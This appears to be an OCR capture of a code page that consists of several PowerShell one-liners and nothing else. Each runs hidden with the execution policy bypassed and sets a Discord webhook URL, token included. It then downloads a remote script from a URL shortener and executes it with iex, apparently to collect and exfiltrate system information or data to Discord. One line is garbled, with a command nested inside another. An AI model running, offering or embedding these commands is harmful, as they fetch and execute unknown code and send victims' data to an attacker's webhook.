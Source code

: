 powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_info_to_dc | iex

powershell -NoP -Ep Bypass -W H -C $dc='powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_info_to_dc | iex
'; irm https://t.ly/rJl5k | iex


powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex


----------------------------------------------------------------------------

powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://is.gd/bw_ex_to_dc | iex
